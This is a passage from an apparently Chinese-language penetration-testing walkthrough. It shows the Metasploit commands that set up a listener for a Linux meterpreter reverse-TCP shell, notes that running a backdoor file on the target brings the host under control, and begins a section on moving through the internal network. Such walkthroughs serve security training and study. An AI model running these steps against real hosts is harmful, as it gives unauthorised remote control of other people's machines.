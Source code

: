 

metasploit启动监听：

```
msf6 > use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 172.16.0.2
set lport 4444
exploit
```

![image-20221224210819946](../../images//image-20221224210819946.png)

在目标主机中运行后门文件后，主机即上线至metasploit.

![image-20221224211144868](../../images//image-20221224211144868.png)

![image-20221224211220498](../../images//image-20221224211220498.png)





## 三 内网漫游

### 3.1 获取主机网络信息
